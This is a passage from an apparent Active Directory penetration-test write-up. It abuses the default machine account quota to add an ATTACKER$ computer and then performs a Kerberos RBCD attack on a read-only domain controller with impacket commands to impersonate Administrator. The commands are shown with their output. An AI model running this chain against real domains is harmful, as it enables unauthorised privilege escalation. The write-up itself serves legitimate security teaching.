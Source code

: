 One thing we observed when reading enumeration outputs produced by tools above, was the parameter [ms-DS-Machine-Account-Quota](https://learn.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota) defaulted at `10`. It means any domain user can join up to 10 computers to domain. In other terms, an attacker is able to create computer accounts in domain (usually named as `COMPUTER$`) with a pre-defined password.

Abusing default configuration, we created a new computer object in organization domain named `ATTACKER$` with our password, using [impacket-addcomputer.py](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py).

```bash
$ addcomputer.py -computer-name 'ATTACKER$' -computer-pass 'Password.123' -dc-host dc.lab.local 'lab.local/appuser1:appuser1'

    Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies
    [*] Successfully added machine account ATTACKER$ with password Password.123.
```



## Exploiting "WriteAccountRestrictions" DACL with RBCD

By analyzing BloodHound output carefully, we noticed there was a path to escalate from `Domain Computers` to one `Read-Only Domain Controller (RODC)` because  `Domain Computers` security group was a member of `Allowed RODC Password Replication` group and had a permission called `WriteAccountRestrictions`.

This configuration didn't seem standard. Instead, it might have happened due to a misconfiguration from a system administrator while creating and promoting a new server to (RO)DC, but root cause of this configuration was unclear.

![image](/assets/img/posts/2025/04/832c3be994e5978936446e67215674f739d74a03f0b5bac8ad92352a3c124dfd.png)

We performed the typical Kerberos Resource-Based Constrained Delegation (RBCD) attack. This involved setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to the SID of our `ATTACKER$` computer account. This configuration allowed us to impersonate the `Administrator` user on the `RODC` using `ATTACKER$` credentials via `S4U2Proxy`.

```bash
$ rbcd.py -delegate-to 'RODC$' -delegate-from 'ATTACKER$' -k -action write -dc-ip 192.168.99.20 'lab.local/ATTACKER$:Password.123'
    [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
    [*] Delegation rights modified successfully!
    [*] ATTACKER$ can now impersonate users on RODC$ via S4U2Proxy
    [*] Accounts allowed to act on behalf of other identity:
    [*] ATTACKER$ (S-1-5-21-1988370448-1183679873-2997581360-1604)

$ getST.py -spn cifs/rodc.lab.local -impersonate 'Administrator' 'lab.local/ATTACKER$:Password.123'
    [*] Getting TGT for user
    [*] Impersonating Administrator
    [*] Requesting S4U2self
```
